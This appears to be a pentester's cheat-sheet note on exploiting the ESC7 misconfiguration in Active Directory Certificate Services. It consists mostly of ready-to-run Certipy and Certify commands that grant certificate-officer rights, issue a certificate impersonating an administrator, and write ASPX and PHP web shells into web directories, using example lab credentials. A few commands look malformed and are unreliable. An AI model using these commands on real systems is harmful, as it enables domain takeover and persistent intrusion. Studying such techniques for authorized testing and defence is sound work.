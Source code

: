 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# General Overview

Certificate Authorities (CAs) are granted specific permissions to manage and secure operations. The ManageCA permission provides administrative control, allowing modifications to persistent configuration settings, such as enabling the EDITF_ATTRIBUTESUBJECTALTNAME2 flag. Conversely, the ManageCertificates permission permits the approval of pending certificate requests, which can override the need for manager approval.

# Abusing ESC7 Certificate Templates

## Scenario 1: 
If we find a user that has the Manage CA permission, we can add an Officer. This will grant us the Manage Certificates permission: 

## Certipy:
- certipy-ad ca -ca 'Vulnerable CA' -add-officer  -username afsimmons@megacorpone.com -password Spawn123!
- certipy-ad -ca -ca 'Vulnerable CA'  -enable-template SubCA -username afsimmons@megacorpone.com -password Spawn123!
If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the SubCA template:

- certipy-ad req -username afsimmons@megacorpone.com -password Spawn123! -ca corp-DC-CA -target ca.megacorpone.com -template SubCA -upn xadministrator@megacorpone.com
- certipy-ad ca -ca 'corp-DC-CA' -issue-request 785 -username afsimmons@megacorpone.com -password Spawn123!
- certipy-ad req -username afsimmons@megacorpone.com -password Spawn123! -ca corp-DC-CA -target ca.megacorpone.com -retrieve 785
## Certify
- Certify.exe setconfig /enablesan /restart
- Certify.exe request /template:corp-DC-CA /altname:xadministrator
- Certify.exe issue /id:[REQUEST ID]
- To disable: Certify.exe setconfig /removeapproval /restart
Alternative Technique:
- Get the current CDP list. Useful to find remote writable shares:
	Certify.exe writefile /ca:SERVER\ca-name /readonly

- Write an aspx shell to a local web directory:
	Certify.exe writefile /ca:SERVER\ca-name /path:C:\Windows\SystemData\CES\CA-Name\shell.aspx /input:C:\Local\Path\shell.aspx

- Write the default asp shell to a local web directory:
	Certify.exe writefile /ca:SERVER\ca-name /path:c:\\inetpub\\wwwroot\\shell.aspx
- Write a php shell to a remote web directory:
	Certify.exe writefile /ca:SERVER\ca-name /path:\\remote.server\\share\\shell.php /input:C:\\Local\\path\\shell.php
